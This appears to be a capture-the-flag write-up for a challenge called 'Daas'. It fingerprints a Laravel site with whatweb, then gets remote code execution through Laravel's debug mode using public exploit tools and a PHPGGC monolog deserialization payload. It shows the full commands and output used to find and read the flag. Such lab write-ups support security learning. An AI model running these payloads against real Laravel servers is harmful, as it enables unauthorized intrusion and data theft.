 # Daas
![[Pasted image 20210422121526.png]]

## Enumeration
Using whatweb can help us quickly identify some potential back end information. In this case we know it is running nginx. 
```bash
└──╼ $whatweb http://206.189.121.131:32458/
http://206.189.121.131:32458/ [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[UNITED STATES][US], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[206.189.121.131], Laravel, Title[Laravel], nginx
```
Refering back to the first web page we can see the laravel version, and php version. Using that information we can do some OSINT to see if any exploit exist. Some google Fu leads us to this page.

https://www.ambionics.io/blog/laravel-debug-rce

We can see that laravel when in debug mode leads us to an RCE. A github is provided that can be used for this exploit. The only extra requirement is to download PHPGGC, which will be used to create the deserialized payload.

https://github.com/ambionics/laravel-exploits

https://github.com/ambionics/phpggc

We can now clone both of these repos using Git, then exploit as shown below. We first used find to locate the flag on the filesystem, then we used cat to view the file.

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system 'find / -iname flag* 2>/dev/null'
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $python3 ../laravelexploit.py http://165.227.232.115:31142/ /tmp/exploit.phar 
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
...snip...
/flaglpfGC
--------------------------
+ Logs cleared
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system 'cat /flaglpfGC'
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $python3 ../laravelexploit.py http://165.227.232.115:31142/ /tmp/exploit.phar 
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared

```

